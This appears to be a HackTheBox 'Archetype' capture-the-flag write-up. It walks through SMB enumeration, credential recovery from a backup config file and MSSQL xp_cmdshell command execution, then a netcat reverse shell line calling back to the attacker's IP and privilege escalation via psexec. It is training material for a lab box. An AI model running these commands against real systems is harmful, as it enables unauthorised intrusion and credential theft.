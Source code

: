 ```yaml
---
title: "Archetype"
date: 2024-08-12
draft: false
description: ""
categories: ["HackTheBox"]
tags: ["ctf", "windows"]
---
```

---
>Completed on `30/08/2022` | OS: `Windows`
>
>Tools used: `nmap` `smbclient` `smbget` `impacket-mssqlclient`  `module: http.server` `winPEAS` `nc.exe` `impacket-psexec`
>
---
> **Perform RCE**: *Here we will exploit the server with the user account, then from the user account exploit the server to get root privileges and thereby take the highest control.*
>

## **Analys** 

First, we still use the nmap tool to scan IP and see the serves are running.

![Screenshot from 2022-08-29 15-32-50.png](img/Screenshot_from_2022-08-29_15-32-50.png)

![Screenshot from 2022-08-29 15-33-13.png](img/Screenshot_from_2022-08-29_15-33-13.png)

| Port | Service | Version |
| --- | --- | --- |
| 135/tcp | msrpc | Microsoft Windows RPC |
| 139/tcp | netbios-ssn | Microsoft Windows netbios-ssn |
| 445/tcp | micrisoft-ds | Windows Server 2019 Standard 17763 microsoft-ds |
| 1433/tcp | ms-sql-s | Microsoft SQL Server 2017 |

Here we recognize that on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP

## ****The SMB share****

Since a directory service is running on port 445 let's try to connect to HTB Archetype using smb.

```
smbclient -L 10.129.33.34
```

You can either add the -N parameter or simply press enter when you're being asked for a password since we do not have any potential passwords yet.

![Screenshot from 2022-08-29 15-33-42.png](img/Screenshot_from_2022-08-29_15-33-42.png)

Luckily we found several shares without entering a valid password.

```bash
smbget -R smb://10.129.33.34/backups
```

The most interesting share is probably backups which is also the only non-default share.

![Screenshot from 2022-08-29 15-36-27.png](img/Screenshot_from_2022-08-29_15-36-27.png)

Then we open the file `prod.dtsConfig`

![Screenshot from 2022-08-29 15-37-29.png](img/Screenshot_from_2022-08-29_15-37-29.png)

## ****Obtaining a reverse shell****

- Yeah, we found username and password, now you will connect MSSQL Server by `impacket-mssqlclient`

```bash
python mssqlclient.py ARCHETYPE/sql_svc@10.129.33.34 -windows-auth
```

First, we need to check our Roles on the server :

```
SELECT is_srvrolemember('sysadmin');
```

- This will return us 1, which means true. So we can proceed

Now try running :

```
xp_cmdshell "whoami"
```

Now it’s working and this command will return us “`archetype/sql_svc`”.

We will follow the last method: ***xp_cmdshell with nc***

- Here first we have to download nc.exe on our system, which can be downloaded from the link: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
    
    local
    
- After downloading let’s set up a python server on our machine in order to send the file to the target system.

```bash
python3 -m http.server
```

![Screenshot from 2022-08-30 14-31-52.png](img/Screenshot_from_2022-08-30_14-31-52.png)

![Screenshot from 2022-08-30 14-31-39.png](img/Screenshot_from_2022-08-30_14-31-39.png)

- The next step is to execute the file in our target system for the reverse shell. So for that first, let’s set up our Netcat listener on our system:

```
nc -lvnp 4444
```

- We will execute the following command in our target system

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] 4444"
```

So user flag is in the Dekstop folder and we can navigate to that folder :

![Screenshot from 2022-08-30 14-36-24.png](img/Screenshot_from_2022-08-30_14-36-24.png)

Now next we have to find our **Root** flag. For that, we need to switch to Administrator and get the flag, but we can’t do it just like that because we need root permission to access the file from the Administrator.

We need something that can tell us the weak points in the system so that we can exploit them and get the root access and we can’t do this manually because it will be a lengthy process upon searching we found something known as “`Winpeas`”

**`Winpeas`** is an extremely useful tool to enumerate the system for us and find weaknesses.

![Screenshot from 2022-08-30 14-58-41.png](img/Screenshot_from_2022-08-30_14-58-41.png)

![Screenshot from 2022-08-30 14-58-54.png](img/Screenshot_from_2022-08-30_14-58-54.png)

- Now run the tool using the command: “./winPEASx64.exe”
- After running at the end we get some output as:

![Screenshot from 2022-08-30 15-01-09.png](img/Screenshot_from_2022-08-30_15-01-09.png)

• Notice the file named “ConsoleHost_history.txt”. Let’s navigate to this file and see what’s in there

![Screenshot from 2022-08-30 15-08-40.png](img/Screenshot_from_2022-08-30_15-08-40.png)

Now we need a tool to log in as Administrator on our target PC and we cannot do it directly in our Windows `Powershell` as we do in the Linux system. There is a tool from our `impacket-**psexec**` which will help us.

- Kill the PowerShell and `mssqlclient` on our machine.
- Let’s use our tool:

![Screenshot from 2022-08-30 15-38-00.png](img/Screenshot_from_2022-08-30_15-38-00.png)

![Screenshot from 2022-08-30 15-41-41.png](img/Screenshot_from_2022-08-30_15-41-41.png)

*** ROOT Flag here ***
